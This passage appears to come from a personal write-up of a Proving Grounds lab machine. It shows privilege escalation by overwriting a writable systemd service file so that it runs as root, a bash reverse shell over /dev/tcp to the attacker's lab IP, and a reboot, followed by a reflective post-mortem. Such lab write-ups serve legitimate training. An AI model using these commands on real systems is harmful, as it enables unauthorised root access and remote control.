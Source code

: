No postgres access
![](postgresauthfailed.png)

psql vulnerabilities - https://www.cvedetails.com/vulnerability-list/vendor_id-336/product_id-575/version_id-499361/Postgresql-Postgresql-9.2.html

I am now pushing an addition 2 hours. I wen back to the writeup and another silly error this time not reading the group for 
`/etc/systemd/system/pythonapp.service` which is writable. We can:
```
cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT
```

```bash
cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
sh -i >& /dev/tcp/192.168.45.174/50000 0>&1
EOT
```

```bash
sudo /sbin/reboot
```

I was happy that I got some of the pieces, annoyed that I did not spot that file as writable and learnt the rabbit holage of doom that is some of these Proving Ground Practice machine. 

![](chmodthefileidiot.png)
## Beyond Root

Reading https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/hetemit/8-box-enum-cmeeks
- I did not smbclient
- Also this style of note taking seems to common among older Ippsec, Siren

## Reflective Post Mortem

Due to the maximum Rabbit Holage of this machine was high, but partly on my end I need a written reflective post-mortem on this machine as I think that the things I missed or and I have done in the past and am not doing now deserve self examination. I am try hard, but the trying smart to do harder machines and counter detail oversights is important.
